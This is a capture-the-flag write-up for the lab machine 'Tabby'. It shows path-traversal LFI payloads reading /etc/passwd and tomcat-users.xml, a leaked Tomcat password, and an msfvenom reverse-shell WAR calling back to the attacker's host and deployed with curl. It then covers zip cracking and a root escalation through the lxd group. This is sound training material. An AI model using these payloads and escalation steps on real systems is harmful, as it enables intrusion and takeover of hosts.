


Tabby is a Linux machine. The ip of the box is 10.10.10.194.

# Recon

I starting with *nmap* scan `nmap -sC -Sv -oA nmap/tabby 10.10.10.194`

And I found three services:
- *ssh*
- *webserver apache*
- *webserver apache Tomcat*

On port 8080 there is the "It works" page  of Tomcat

I tried to navigate on the manage page but required credentials.

The port 80 show a page of site.

I decide to navigate in the site and in *http://megahosting.htb/news.php?file=statement* I found a potential LFI. I just tried with `file=../../../../../../../../etc/passwd` and it worked.

A this point I tested for some tomcat path and tried`file=../../../../../../../../usr/share/tomcat9/etc/tomcat-users.xml` and found the credential for the user *tomcat*.

>**user:tomcat password:$3cureP4s5w0rd123!**

# User
A this point I can log in `http://10.10.10.194:8080/host-manager/` but not can access on `http://10.10.10.194:8080/manager/` where usually  is possible load a  WAR file thorught the dashboard.

The user `tomcat` had the role `manager-script`. From the [doc](https://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html) of tomcat the user with this role can [deploy](https://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Deploy_a_Directory_or_WAR_by_URL) a WAR from cli. So I created the evil WAR 
> msfvenom -p java/shell_reverse_tcp LHOST=10.10.15.0  LPORT=1234 -f war -o evil.war

and then uploaded on the server

> curl -u tomcat:\\$3cureP4s5w0rd123! "http://10.10.10.194:8080/manager/text/deploy?path=/foo&update=true" --upload-file evil.war

A this point open a listener on local machine and go on `http://10.10.10.194:8080/foo`

In `/var/www/html/files` there is a backup zip so I downloaded the zip. The zip is protected by password so cracked it with `fcrackzip`

> fcrackzip -D -p rockyou.txt 16162020_backup.zip 

and found a password `admin@it` in the backup dir there is nothing so just tried to use the crackked password for log in as `ash` . The password worked and I can take user flag.

# Root
A this point I checked for user groups and founded that the user `ash` belongs to `lxd` group.
The lxd is a system container manager and is possible to escalate the root privilege from a member of lxd group.

There is nice [article](https://www.hackingarticles.in/lxd-privilege-escalation/) that explain exploit.

So I cloned the alpine builder

> git clone  https://github.com/saghul/lxd-alpine-builder.git

Launch the builder

> ./build-alpine 

Download the alpine image on machine

Import image in lxc

> lxc image import alpine-v3.12-i686-20200826_15554.tar.gz --alias evil

Initialize lxc

> lxc init

Init and set image in lxc
> lxc init evil ignite -c security.privileged=true
>
> lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
>
> lxc start ignite

Launch image

> lxc exec ignite /bin/sh

Take root flag

